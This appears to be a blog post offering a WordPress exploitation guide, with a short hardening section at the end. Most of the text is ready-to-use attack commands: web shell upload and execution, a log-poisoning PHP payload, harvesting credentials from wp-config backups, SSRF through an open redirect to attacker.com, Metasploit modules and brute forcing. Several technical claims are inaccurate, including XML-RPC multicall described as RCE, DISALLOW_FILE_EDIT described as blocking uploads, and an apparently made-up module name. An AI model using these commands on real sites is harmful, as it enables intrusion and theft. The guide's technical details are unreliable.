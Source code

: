 ```yaml
---
title: "Exploiting WordPress Vulnerabilities: All Possible Attack Vectors"
date: "2025-02-03"
author: "Sumon Nath"
tags: [WordPress, RCE, cybersecurity, web exploitation, penetration testing, security]
---
```


# Exploiting WordPress Vulnerabilities: All Possible Attack Vectors

WordPress is one of the most popular content management systems (CMS) globally, making it a frequent target for attackers. Security flaws in WordPress core, plugins, and themes can be exploited to achieve Remote Code Execution (RCE), privilege escalation, and full system compromise. This guide explores all possible ways to exploit WordPress vulnerabilities.

---

## **1. Understanding WordPress Security Weaknesses**

### **Common WordPress Vulnerabilities**
- **Outdated Plugins & Themes**
- **Unpatched WordPress Core**
- **File Upload Vulnerabilities**
- **XML-RPC Exploits**
- **Weak Default Configurations**

### **Common Exploitable Endpoints**
- `/wp-admin`
- `/wp-content/uploads/`
- `/wp-json/wp/v2/users`
- `/xmlrpc.php`

---

## **2. Exploiting WordPress for Remote Code Execution (RCE)**

### **1. Exploiting Unauthenticated File Uploads**
Some vulnerable plugins allow unauthenticated file uploads, leading to RCE.
```bash
curl -X POST -F "file=@shell.php" http://target.com/wp-content/uploads/shell.php
```
Execute the payload:
```bash
http://target.com/wp-content/uploads/shell.php?cmd=id
```

### **2. Exploiting Plugin Vulnerabilities**
Identify outdated plugins:
```bash
wpscan --url http://target.com --enumerate p
```
Exploit a vulnerable plugin using Metasploit:
```bash
msfconsole
use exploit/unix/webapp/wp_plugin_rce
set RHOSTS target.com
exploit
```

### **3. Exploiting XML-RPC for Code Execution**
WordPress XML-RPC can be abused to execute arbitrary commands.
```bash
curl -X POST http://target.com/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member></struct></value></data></array></value></param></params></methodCall>'
```
If enabled, this can be used for brute force or RCE.

---

## **3. Advanced Techniques for WordPress Exploitation**

### **1. Exploiting Backup Files and Configurations**
If `wp-config.php` backups exist, extract database credentials:
```bash
http://target.com/wp-config.php.bak
```
Use credentials to gain access:
```bash
mysql -h target-db -u wordpress -p
```

### **2. Poisoning WordPress Logs for Execution**
Inject a payload into access logs via User-Agent:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com
```
Execute it:
```bash
http://target.com/wp-admin/logs/access.log?cmd=id
```

### **3. Exploiting Open Redirects for SSRF**
Some WordPress themes/plugins allow SSRF through redirects:
```bash
http://target.com/?redirect=http://attacker.com
```
Use it to access internal services:
```bash
http://target.com/?redirect=http://127.0.0.1:8000/admin
```

---

## **4. Automating WordPress Exploitation**

### **Using WPScan for WordPress Vulnerability Scanning**
```bash
wpscan --url http://target.com --api-token YOUR_TOKEN
```

### **Using Metasploit for WordPress Exploitation**
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target.com
exploit
```

### **Using WPForce for Bruteforce Attacks**
```bash
git clone https://github.com/n00py/WPForce.git
python3 wpforce.py -u admin -w wordlist.txt -t http://target.com
```

---

## **5. Defending Against WordPress Exploits**

### **1. Keep WordPress, Plugins, and Themes Updated**
```bash
wp core update
wp plugin update --all
```

### **2. Disable Unused Features**
- Disable XML-RPC:
```php
add_filter('xmlrpc_enabled', '__return_false');
```
- Restrict file uploads:
```php
define('DISALLOW_FILE_EDIT', true);
```

### **3. Use Web Application Firewalls (WAFs)**
Deploy **ModSecurity** for additional protection:
```bash
sudo apt install libapache2-mod-security2
sudo systemctl restart apache2
```

---

## **6. Conclusion: Securing WordPress Against Exploits**

WordPress remains a high-value target for attackers due to its widespread use and frequent plugin vulnerabilities. Regular updates, strong security configurations, and proactive monitoring can mitigate most threats.

🚀 Stay vigilant, test your WordPress sites, and implement strong security measures!

---

💡 **Want more security insights?** Stay tuned for advanced WordPress penetration testing techniques!

